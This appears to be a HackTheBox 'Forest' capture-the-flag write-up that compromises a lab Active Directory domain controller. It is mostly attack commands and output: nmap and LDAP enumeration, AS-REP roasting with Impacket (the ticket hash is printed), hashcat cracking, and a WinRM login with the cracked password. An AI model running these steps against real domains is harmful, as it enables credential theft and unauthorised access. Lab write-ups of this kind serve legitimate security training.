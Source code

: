 # Forest

## Overview

A domain controller created by _HackTheBox_ with Exchange server installed in a minimal AD domain.

The machine covers the following techniques:

* [AS-REP Roasting](../../windows/credential-access/kerberos-ticket/as-rep-roasting-attack.md)
* [DCSync attack](../../windows/credential-access/os-credential-dumping/credential\_dumping.md#dcsync-attack)
* Bloodhound

## Reconnaissance

### Port Scanning

We use `nmap` to figure out what services are running on the target.

```bash
$ nmap -Pn -n -sS -p- -T4 --min-rate 1000 <IP>
...
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
1433/tcp  open  ms-sql-s
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49689/tcp open  unknown
49690/tcp open  unknown
49702/tcp open  unknown
50008/tcp open  unknown
64429/tcp open  unknown
...
```

The results reveal the following information.

* port 88 tells us that this should be a _domain controller_
* port 389 allows us to fetch information about target AD domain via LDAP
* port 5985 may allow us access the target using _WinRM_ later

### LDAP

It seems that we can fetch information about the target AD domain via [LDAP anonymous authentication](../../windows/ad/adds/ldap.md#anonymous-authentication).

By querying the RootDSE information, we see that the target domain name is `htb.local.`

```bash
$ ldapsearch -H ldap://<IP> -x -b '' -s base
```

## Initial Access

### Alfresco

From the information gathered through anonymous LDAP query, we found a _service account_ named `svc-alfresco`.

To expand our knowledge of the technology used by our client, the next thing to do is to find what third-party service, which shall be AD-integrated, related this account.

By Google, we found a product named [Alfresco Content Services](https://docs.alfresco.com/content-services/7.0).

From the configuration, we see that the account related to this service has been configured with _Kerberos pre-authentication_ disable.

<figure><img src="../../.gitbook/assets/forest_alfresco.png" alt=""><figcaption><p><a href="https://docs.alfresco.com/process-services/latest/config/authenticate/#configuration-steps">Alfresco - Configuration Steps</a></p></figcaption></figure>

This allows us to get the TGT for this account `svc-alfresco`, and conduct the [_AS-REP Roasting_ attack](../../windows/credential-access/kerberos-ticket/as-rep-roasting-attack.md) to retrieve the account password from the requested TGT.

### AS-REP Roasting

We use the `Impacket-GetNPUsers` to get the TGT ticket for the account `svc-alfresco`:

```bash
$ impacket-GetNPUsers htb.local/svc-alfresco -no-pass -format hashcat
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB.LOCAL:25dea275afcce8003c360ab40353f112$1c819f4f545ec54a5b988c5402709abffb17105fd2e5ab6a47b0321fd90307767aef2e00f6504fc2eaf643c4884614ca62b6d938a45b19c87893b0bca1d1dfc3e628c97462de1625b8d492f0ad25932d37bc84e095a6bddcb6230d53066fa0c165a77a150e2837cf257c898e71c2fbb16411e905718cf59262d1d15159537a0c49c31b7f64d89f128e20a2becb4f0e47fd0b4ca10440539ca6038e5d14da2a8be833e857bc868afff34011a9ae150c4b296866c8dbddd48f9208bc324208b251af8ff35f7a205666166c8208c59cff2de2d9994aa67fc4e7eb6aac4b0cd9b1ec02bced2feb3a
```

Refer to [AS-REP Roasting - Impacket](../../windows/credential-access/kerberos-ticket/as-rep-roasting-attack.md#impacket) for more information.

We can crack the hash using `hashcat` with mode 18200:

```bash
$ hashcat --example|grep -i 'as.*rep' -B2

MODE: 18200
TYPE: Kerberos 5, etype 23, AS-REP
HASH: $krb5asrep$23$user@domain.com:3e156ada591263b8aab0965f5aebd837$007497cb51b6c8116d6407a782ea0e1c5402b17db7afa6b05a6d30ed164a9933c754d720e279c6c573679bd27128fe77e5fea1f72334c1193c8ff0b370fadc6368bf2d49bbfdba4c5dccab95e8c8ebfdc75f438a0797dbfb2f8a1a5f4c423f9bfc1fea483342a11bd56a216f4d5158ccc4b224b52894fadfba3957dfe4b6b8f5f9f9fe422811a314768673e0c924340b8ccb84775ce9defaa3baa0910b676ad0036d13032b0dd94e3b13903cc738a7b6d00b0b3c210d1f972a6c7cae9bd3c959acf7565be528fc179118f28c679f6deeee1456f0781eb8154e18e49cb27b64bf74cd7112a0ebae2102ac
```

and get the password `s3rvice` for the account `svc-alfresco.`

<figure><img src="../../.gitbook/assets/圖片 (3) (2).png" alt=""><figcaption></figcaption></figure>

### WinRM

We can now login to the target host with the credential we got via [WinRM](../../windows/execution/remote/winrm.md).

```bash
$ evil-winrm -i forest.htb -u svc-alfresco -p s3rvice
```

## Miscellaneous

### Golden Ticket Attack

Since we get the account `krbtgt`'s password hash, we can conduct the [golden ticket attack](../../windows/credential-access/kerberos-ticket/golden-silver-ticket-attack.md#golden-ticket-attack).

